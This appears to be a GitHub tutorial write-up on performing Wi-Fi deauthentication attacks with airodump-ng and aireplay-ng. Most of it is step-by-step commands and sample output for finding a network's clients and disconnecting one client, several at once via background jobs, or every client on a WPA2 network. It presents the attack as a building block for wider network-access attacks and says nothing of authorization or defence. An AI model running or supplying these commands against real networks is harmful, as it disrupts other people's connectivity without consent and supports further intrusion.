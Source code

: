 ## Deauth-Attack

Every information security enthusiast probably  know this basic  deauthentication attack, and if you don't  know no need to worry this writeup will give a indepth knowledge about deauthentication attack.

---

##### WHAT IS DEAUTHENTICATION ATTACK ?

- It disconnects any client from your network
- No need to connect to that network
- No need to know its key
- Works against all wifi networks
  - WEP
  - WPA
  - WPA2

**This is done by the tool <mark> aireplay -ng </mark>**

> We are illustrating this attack in **wlan0** interface

The classic command to know about all networks near you is

STEP 1:

```bash
root@kali:~# airodump-ng wlan0

```

So you using the above command target  any desired network by specifying is's *channel(ch)* and *bssid*  to know all the clients connected to that specific network.

STEP: 2

```bash
root@kali:~# airodump-ng --channel 1  -- bssid  56:13:58:76:5B:55 wlan0

```
You will get something like This

```bash
CH  1 ][ Elapsed: 30 s ][ 2020-05-05 16:35                                

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

56:13:58:76:5B:55  -34 100      213       64    0   1  360  WPA2 CCMP   PSK  OnePlus 7T           

BSSID              STATION            PWR   Rate    Lost    Frames  Probe                         

56:13:58:76:5B:55  38:F9:D3:8A:D4:87  -30    1e-24      0       36                                 
56:13:58:76:5B:55  20:82:C0:7F:77:9B  -32    0e- 6      0       71                                 
56:13:58:76:5B:55  08:00:27:E6:E5:59  -33    54-1       0       50
root@kali:~#

```
Now you can deauthenticate any client as your wish by the below command


```bash
root@kali:~# aireplay-ng --deauth 10000 -a (MAC ADDRESS OF TARGET ACCESS POINT) -c (MAC ADDRESS OF MACINE TO DISCONNET) wlan0

```

MAC ADDRESS OF TARGET ACCESS POINT: BSSID
MAC ADDRESS OF MACINE TO DISCONNET: STATION
10000: packets using to deauthenticate

STEP 3: (IN ANOTHER TAB)
![](img/de/n3.png)


This will do your job but once you do this your bash screen will overflow and stuck by packets message and you can't write and more commands in bash.

**But what if you want to deauthenticate multiple clients ?**  

So here we have the solution to our above problem:

**Run aireplay-ng .... multiple times to deauthenticate multiple clients**

TIPS:
- Use  **&** at the end of the command to run it in the
- Use  **&>/dev/null** to redirect output to null

```bash
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 08:00:27:E6:E5:59 wlan0 &> /dev/null &

```
Hit Enter


```bash
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 08:00:27:E6:E5:59 wlan0 &> /dev/null &
[1] 14766
root@kali:~#

```
You will get an job id and bash will allow you to run any command and job will be running in background.

```bash
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 08:00:27:E6:E5:59 wlan0 &> /dev/null &
[1] 14766
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 20:82:C0:7F:77:9B wlan0 &> /dev/null
[2] 14785
root@kali:~#

```

- You can use **jobs** to see commands running in the background and **kill** to stop a specific job

```bash
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 08:00:27:E6:E5:59 wlan0 &> /dev/null &
[1] 14766
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 20:82:C0:7F:77:9B wlan0 &> /dev/null &
[2] 14785
root@kali:~#jobs
[1]- Running             aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 08:00:27:E6:E5:59 wlan0 &> /dev/null &
[2]+ Running             aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 20:82:C0:7F:77:9B wlan0 &> /dev/null &

```

Here you go smoothly in deauthenticating multiple clients . **But what if you want to disconnect all the devices**

To **disconnect** all clients connected to specific network

- Run the same **aireplay-ng** command
- Set the **BSSID** of target of NETWORK
- Omit the -c arguments (the client argument)


```bash
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 wlan0

```
Hit enter and you will successfully disconnect all the clients from that specific network.
>But if you get some **error** than follow the below commands to avoid error:

STEP1:

```bash
root@kali:~# airodump-ng wlan0

```
It will list all networks select the bssid and channel to deauthenticate all clients.


STEP 2:
```bash
root@kali:~# airodump-ng  --bssid 56:13:58:76:5B:55  --channel 1  wlan0

```

STEP3: (Run this in another TAB)

```bash
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 wlan0

```

See deauthentication attack is required in many  attack,  you can treat it as a small part of many network accessing attacks so keep a good grip on it.

---

**Author** - [Error](https://github.com/Error-200)
